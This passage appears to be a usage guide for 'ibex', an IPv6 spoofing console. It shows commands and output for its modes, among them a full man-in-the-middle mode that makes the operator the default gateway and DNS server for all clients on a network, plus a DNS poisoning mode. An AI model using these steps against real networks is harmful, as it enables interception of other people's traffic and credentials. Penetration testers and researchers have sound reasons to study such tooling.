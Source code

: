 ```bash
ibex> spoofing
[✓] NAT64 (tayga) is running.
[✓] DNS64 (named) is running.
ibex spoofing> 
```

**List available modes**

```
ibex spoofing> mode list

[*] Available modes:

  mitm         → Full attack: route + DNS spoofing
  dnsinject    → DNS poisoning only (no routing)
  routeronly   → Default gateway only
  off          → Revert mode
```

**Enter the MITM mode shell**

```bash
ibex spoofing> mode mitm
```

You’ll see:

```bash
[*] Mode set to mitm
[*] Applied:
    - lifetime: 300
    - dns_lifetime: 300
    - prefix: 2001:db8:1::
    - interval: 2
    [!] You are now the default gateway.
    [!] All IPv6 traffic will flow through you.
    [!] You are also the DNS server for all clients.
```

This will drop you into the interactive subshell:

```
ibex spoofing mitm>
```

**Set required parameters**

Ibex supports autofill once you specify the interface, it will detect the MAC and link-local address automatically:

```bash
ibex spoofing mitm> set interface eth0
[*] Autofilled MAC:  00:0c:29:3b:ac:5f
[*] Autofilled LLIP: fe80::20c:29ff:fe3b:ac5f
```

Now set spoofed DNS servers (multiple addresses are supported):
